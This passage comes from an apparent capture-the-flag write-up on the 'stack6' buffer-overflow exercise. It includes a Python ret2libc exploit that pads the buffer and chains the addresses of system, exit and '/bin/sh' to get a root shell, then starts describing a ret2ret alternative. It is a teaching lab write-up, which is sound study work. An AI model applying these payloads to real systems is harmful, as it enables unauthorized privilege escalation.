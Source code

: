 The address of the string '/bin/sh' is  :

0xb7e97000 +  0x11f3bf = 0xb7fb63bf


# Exploit :

```python

import struct

# < little endian format
# I : unsigned int  4 bytes

offset_binsh=0x11f3bf
libc_start=0xb7e97000
system_address=struct.pack('<I', 0xb7ecffb0)


bin_sh_address=struct.pack('<I',libc_start+ offset_binsh)

exit_address=struct.pack('<I',0xb7ec60c0)

padding=b'A'*80

payload = padding + system_address + exit_address + bin_sh_address

print(payload)
```

And we got our shell with root privileges : 

![](win_root.png)



# Another way to exploit stack6 (ret2ret): 


As i say previously we can execute shellcode even if there is restriction on the return address.

We cannot jump on the stack since stack  address start with 0xbffff...

Instead of jumping on the stack we are going to jump on the ret instruction of getpath function :

```
0x080484f9 <getpath+117>:	ret  

```
The idea is to overwrite the save eip with the address of ret instruction (which is not on the stack) to jump at any addresss.
